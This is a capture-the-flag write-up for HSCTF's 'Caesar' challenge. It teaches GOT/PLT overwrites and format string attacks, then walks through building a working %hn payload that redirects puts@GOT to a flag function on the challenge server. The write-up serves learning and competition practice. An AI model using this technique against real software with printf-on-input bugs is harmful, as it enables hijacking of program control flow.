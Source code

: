 # Caesar (Binary Exploitation, 300 points)

python -c "print '\x22\xa0\x04\x08\x20\xa0\x04\x08%2044x%31\$hn%32870x%32\$hn\n' + '0\n'" | nc shell.hsctf.com 10003

This writeup requires some background explanation. [Click here to skip that and get straight to the writeup!])(./README.md#writeup)

## What are we trying to do? How does this exploit work?

Our objective is to call `give_flag`. However, there are no buffer overflows to exploit here. Instead, we have to turn to a **GOT overwrite**. Now, I'll provide a quick primer here, as usual, but to really learn about the GOT/PLT table, I suggest visiting these links:


	* [LiveOverflow GOT/PLT Table Explanation](https://www.youtube.com/watch?v=kUk5pw4w0h4)
	* [Grant Curell - What is the GOT?](http://grantcurell.com/2015/09/21/what-is-the-symbol-table-and-what-is-the-global-offset-table/)
	* [!HELPFUL! PicoCTF 2017 config_console writeup by _py](https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920)

Most programs are compiled *dynamically*, which means that the executable uses your machine's local libraries, instead of packing its own. Because referencing an absolute memory location is impossible when compiled dynamically, *offsets* to functions are stored in a Global Offset Table (GOT), where an absolute memory address can be calculated by finding (base) + (GOT_offset). 

While the program is running, if a function `func` is called, the compiler will translate this into a call `func@plt`. Instead of jumping to the unknown location of `func`, a short code stub at `func@plt` either *points to the GOT entry for func* or resolves the location of `func` through the GOT entry.

Therefore, if we can overwrite the GOT entry for a function, when this function is called we can redirect output to a location of our choosing, and therefore call `give_flag`!

-----

The other half of this exploit is a **format string exploit**. Helpful links provided below:

	* [StackOverflow Explanation](https://stackoverflow.com/questions/7459630/how-can-a-format-string-vulnerability-be-exploited)
	* [Syracuse University Slides on Format String (diagrams!)](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)
	* [Code Arcana: Format String Exploits](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
	* [!HELPFUL! PicoCTF 2017 config_console writeup by _py](https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920)

Recall that arguments for method calls are placed on the stack right before they are called, e.g. `printf("%s", buf)` will cause `%s` and `buf` to be pushed onto the stack, then popped once `printf` is called. The important line in this exploit is the improper use of `printf(input)`. If an attacker were to input `%x %x %x %x %x` as a string, **a single** argument of `%x %x...` will be pushed onto the stack. However, printf is *dumb*, and when it gets the string `%x...`, it will think it has *five* inputs, and **pop five arguments off the stack, leaking arbitrary stack data**.

Printf also has the `%n` specifier, which will write <number of bytes before> to the address listed by %n. For example, if you have `printf("<0x1337 bytes>%n", loc_in_memory);`, \*loc_in_memory will contain the value 0x1337 after the printf call.

We now have both a read primitive (read stack data) and a write primitive (write anywhere). Let's use this to construct our exploit.

## Writeup

Again, we are provided source code for this problem, so let's investigate that first. This program is longer, so I have truncated it to the most important parts.

```
<snip>
void caesar() {
<snip>

    printf("Enter text to be encoded: ");
    fgets(input, 250, stdin);

<snip>

    //compared to other printf calls, this is *different* and therefore suspicious!
    printf("\nOriginal input:");
    printf(input);
	
	<snip>
}

void give_flag(char* s) {

<snip>
```

Aha! There is a malformed printf call, allowing us to execute a format string attack. First, let's locate our input on the stack (the reasoning behind this will become apparent later).

![term1.png](term1.png)

Here's proof that printf is leaking values from the stack :) We're specifically looking for values 0x41414141, 0x42424242, and so on because *that's what we put in as input* before leaking data. Near the end, we count that "41414141" is the 31st input on the stack. We can verify this by outputting only the 31st input on the stack with `%31$x`. **Note that '$' is a special character in a shell, so it must be escaped with a backslash '\\' every time it is used in a script!** As input, however, it is treated as raw text.

![term2.png](term2.png)

Great! As we recall from the above articles, we can now write *anything we want* to address 0x41414141. Let's replace that with the GOT entry for a specific function...but which function? Some function has to be called after this malformed printf call to jump to give_flag, after all.

```
* Code from https://stackoverflow.com/a/16374718 */
    while (input[i] != '\0') {
        if (input[i] >= 'A' && input[i]<='Z') {
            char newletter = input[i] - 'A';
            newletter += shift;
            newletter = newletter % 26;
            input[i] = newletter + 'A';
        }
	if (input[i] >= 'a' && input[i]<='z') {
            char newletter = input[i] - 'a';
            newletter += shift;
            newletter = newletter % 26;
            input[i] = newletter + 'a';
        }
        i++;
    }
    printf("Ciphered with a shift of %d: %s", shift, input);
    printf("\nThank you for using the Caesar Cipher Encoder! Be sure to like, comment, and subscribe!\n");
}
```

As it turns out, the only calls that happen after our input are *printf* and *exit*. If we overwrite printf, we'd end up breaking the printf call in give_flag() and never be able to get our flag:

```
    fscanf(flagFile, "%s", flag);
    printf("Here's a flag: %s\n", flag);
    ```

We could also overwrite exit(), but the function I chose to overwrite was puts(). "What puts()?" you might ask. "I only see printf!"

##### When printf is called with only a string as input (not a variable!), it gets optimized to puts().

In fact, this harkens back to [HSCTF 2017's Never Say Goodbye :P](https://jakobdegen.gitbooks.io/hsctf-4-writeups/content/solutions/exploitation/400-never-say-goodbye.html) We can verify this by looking at the disassembly with `objdump -d caesar`:

![term3.png](term3.png)

We are correct! The second printf() call gets optimized to puts() when run by the machine. Let's overwrite the GOT entry of puts() so that when puts() is called, instead of redirecting the program to puts() in libc, it'll redirect flow to give_flag. We can find the GOT entry location by running `objdump -R caesar | grep puts`.

```
0804a020 R_386_JUMP_SLOT   puts@GLIBC_2.0
```

is our output. One last thing: the specificer "%<number>x" in printf will pad its input to <number> characters. For example, if we type "A%2005x", the program will take the input "A" and pad it with 2005 bytes. Now, let's begin constructing our exploit! Right now, our exploit looks like this: `\x20\xa0\x04\x08%134514794x%31$n`, where we write the value **0x8048862 (address of give_flag)** bytes to the 31st item on the stack, which is the address of puts@got.

A problem immediately arises. We are writing over **134 million** characters to stdin! How can we cut this down? Solution: *use %hn instead of %n*. %hn writes to a half word, e.g. 0x4344 instead of 0x41424344. By doing this, we can split up our data into 0x804 and 0x8862, much more reasonable numbers. Of course, this means that we have to write directly to the 4 higher bytes of the GOT entry, since we can only write 4 bytes.

If a memory location 0x41414141 contains value 0x41424344, then taking the halfword at 0x41414141 will return 0x4344. However, taking the value at 0x414141*43* will literally shift the memory over 2 bytes, and will return 0x4142.

Let's split up our input in this fashion. Our payload now looks like `\x22\xa0\x04\x08\x20\xa0\x04\x08%2044x%31\$hn%32870x%32\$hn`. To break this down:

	1. `\x22\xa0\x04\x08\x20\xa0\x04\x08`: We place the addresses we want to write to on the stack. In this case, the higher 2 bytes of puts@GOT are at the 31st position on the stack, and the lower 2 bytes are at the 32nd position.
	2. `%2044x%31\$hn` Note that *we have written 8 bytes already with our addresses!*. This means we have 0x0804 - 8 characters left to write, or 2044 characters. We pad these in with `%2044x`, then write this halfword to the higher 2 bytes of puts@GOT.
	3. `%32870x%32\$hn` Our first input totaled 0x804 characters total, so we need 0x8862 - 0x0804 more characters, or 32870. We pad these, then write to the two lower bytes of puts@GOT.

Now, when we call puts() at the very end, we should instead redirect to give_flag! Let's test it out.

```
0x0804885a <+575>:	push   $0x8048a6c
0x0804885f <+580>:	call   0x80484c0 <puts@plt>
   ```

Let's place a breakpoint with `b *0x0804885a`, right before our hijacked puts() call, and step through with `si` to see where we get taken.

![term4.png](term4.png)

Success! We can see that once we step to puts@plt, we redirect to our "GOT entry", which actually points to give_flag! Let's try it out through netcat.

![term5.png](term5.png)

Whoops! We forgot to provide input for the Caesar cipher itself. Append a "\n0\n" to the payload to simulate pressing enter with a shift of 0:

![sol.png](sol.png)

#### Flag: `flag{printered_lol}
